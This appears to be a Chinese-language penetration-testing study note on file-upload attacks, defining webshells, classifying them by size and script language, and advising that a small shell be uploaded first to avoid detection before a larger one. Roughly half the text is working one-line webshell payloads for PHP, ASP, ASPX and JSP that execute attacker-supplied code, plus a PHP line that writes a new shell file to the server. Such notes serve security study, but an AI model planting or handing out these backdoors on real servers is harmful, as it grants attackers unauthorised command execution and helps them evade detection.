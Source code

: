 # 文件上传2023-8-6

# 文件上传

## 一、Webshell

### 1.1 简介

写入webshell的目的就是获得对服务器的执行操作权限

webshell就是一个木马后门。

webshell大多以动态脚本形式出现，一般不会在系统日志中留下记录，只会在web日志中留下数据传输记录。

### 1.2 分类

1. 根据文件大小分类：一句话木马、小马、大马
2. 根据脚本类型分类：jsp、asp、aspx、php

上传小马的目的是用来上传大马。直接传大马动静太大，容易被拦下。小马一般只包含文件上传功能，而大马功能更多。

### 1.3 常见一句话木马

php

```php
<?php eval($_GET[pass]);?>
<?php eval($_POST[pass]);?>
<?php @$a = $_COOKIE[1];$b='';$c='';@assert($b.$a);?>
```

asp

```asp
<%eval request("pass")%>
```

aspx

```aspx
<%@ Page Language="Jscript"%>
<%eval(Request.Item["pass"],"unsafe");%>
```

jsp

```jsp
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

### 1.4 一句话木马写小马

```php
<?php fputs(fopen("文件名.php","w"),'<?php 文件内容');?>
```
